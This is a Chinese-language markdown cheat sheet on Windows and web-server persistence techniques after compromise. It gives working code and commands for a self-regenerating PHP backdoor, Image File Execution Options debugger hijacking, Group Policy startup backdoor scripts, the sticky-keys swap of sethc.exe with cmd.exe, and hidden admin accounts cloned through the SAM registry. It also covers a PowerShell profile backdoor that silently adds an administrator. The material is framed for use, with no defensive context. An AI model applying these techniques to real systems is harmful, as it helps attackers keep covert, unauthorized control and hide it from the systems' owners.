 # 权限维持——windows权限维持

## 不死马权限维持

1. php不死马

``` php
<?php ignore_user_abort(); //关掉浏览器，PHP脚本也可以继续执行.
set_time_limit(0);//通过set_time_limit(0)可以让程序无限制的执行下去 
$interval = 5; // 每隔*秒运行 
do {
    $filename = 'test.php'; 
    if(file_exists($filename)) { 
        echo "xxx"; 
    }
    else { 
        $file = fopen("test.php", "w"); 
        $txt = "<?php phpinfo();?>\n"; //在此处写入后门代码
    fwrite($file, $txt); 
    fclose($file); 
    }
    sleep($interval); 
} while (true); 
?>
```

2. 上述脚本每隔5秒运行一次，并生成后门文件，若后门文件被删除则会自动重新生成，当apache等中间件重启，则脚本必须重新解析执行一次才可以重新运行

## 映像劫持

1. 修改注册表

   ```  powershell
   HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options
   ```

2. 在下面添加一项，添加的项的命名与后续要触发的可执行文件程序文件名一致，如1.exe

3. 然后在1.exe的右侧新建一个Debugger，在输入值的栏目中填入后门绝对路径
4. 修改一个文件的文件名为1.exe即可触发后门

## 策略组脚本维持

1. 输入`gpedit.msc` 打开组策略，打开 windows设置 脚本 里面有关机和开机
2. 在`C:\Windows\System32\GroupPolicy\Machine\Scripts\Startup`下添加一个后门脚本
3. 策略组中的windows设置->脚本启动中添加后门脚本

## shift后门

首先 更改sethc.exe拥有者 为administrator

``` powershell
move C:\windows\system32\sethc.exe C:\windows\system32\sethc.exe.bak 
Copy C:\windows\system32\cmd.exe C:\windows\system32\sethc.exe
```

接着 cmd改名替换 sethc.exe

## 影子账户

1. 创建一个带$的用户，并添加到本地用户组，通过这种方法添加的用户在cmd中看不到，但是在控制面板中可以看到

   ``` powershell
   net user admin$ passwd /add
   net localgroup administrators admin$ /add
   ```

2. 打开注册表 

   ``` powershell
   HEKY_LOCAL_MACHINE\SAM\SAM\Domains\Account\User
   ```

3. 将1F4下F项的值复制到3ea下F项里面，替换原有数据。然后导出本地用户以及3EB。3ea是添加的本地用户 1F4是超级管理员的值。删除 net user admin$ /del 删除这个用户 再导入注册表，这样控制面板中就看不到这个本地用户了。

## powershell配置文件后门

1. Powershell配置文件其实就是一个powershell脚本，他可以在每次运行powershell的时候自动运行，所以可以通过向该文件写入自定义的语句用来长期维持权限。

2. 依次输入以下命令，查看当前是否存在配置文件。

   ``` powershell
   echo $profile 
   Test-path $profile
   ```

3. 如果返回false则需要创建一个

   ``` powershell
   New-Item -Path $profile -Type File –Force
   ```

4. 然后写入命令，可以创建一个用户为目标，也可以写成反弹shell的

   - 1.bat文件内容

     ``` powershell
     net user moon 123456 /add & net localgroup administrators moon /add
     ```

   - 在powershell控制台中依次输入以下命令，重新打开powershell就会自动执行

     ``` powershell
     $string = 'Start-Process "C:\1.bat"' 
     $string | Out-File -FilePath $profile -Append 
     more $profile
     ```

   

